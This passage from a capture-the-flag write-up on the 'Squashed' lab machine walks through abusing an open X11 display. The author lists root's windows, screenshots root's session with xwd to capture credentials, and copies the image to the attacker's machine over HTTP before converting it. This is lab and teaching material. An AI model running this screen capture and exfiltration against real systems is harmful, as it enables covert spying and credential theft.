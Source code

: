 ```bash
     0x1000001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0xc00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0xa00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xa00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xa00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0
```

As we can see the root user is connected and has all these windows open. According to the process mentioned in [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#verfy-connection), we can see that we need to run a command to screenshot the credentials of the root user

The first command did not work because of the fact that we are inside the machine so the I.P was not needed at this point.

```bash
alex@squashed:~$ xwd -root -screen -silent -display 10.10.11.191:0 > screenshot.xwd
xwd:  unable to open display '10.10.11.191:0'
alex@squashed:~$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:~$ file screenshot.xwd 
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```

Few things left to do, for those who don’t have it installed, convert is a program member of the [ImageMagick](https://imagemagick.org/script/download.php) suite of tools. Now, I will serve the file to my machine and convert it to a <mark style="color:green;">png</mark> or <mark style="color:green;">jpg</mark> file the choice is yours, then let’s open the converted file.

```bash
Connecting to 10.10.11.191:8080... connected.                                                               [17/64]
HTTP request sent, awaiting response... 200 OK                                                                     
Length: 1923179 (1.8M) [image/x-xwindowdump]                                                                       
Saving to: ‘screenshot.xwd’                                                                                        
                                                                                                                   
screenshot.xwd              100%[=============================================>]   1.83M  1.16MB/s    in 1.6s     
                                                                                                                   
2022-12-02 21:19:45 (1.16 MB/s) - ‘screenshot.xwd’ saved [1923179/1923179]                                         
                                                                                                                   
                                                                                                                   
d0n in ~/Squashed/Intell/Remote-Files on ☁️                                                                         
➜  convert screenshot.xwd screenshot.jpg
```
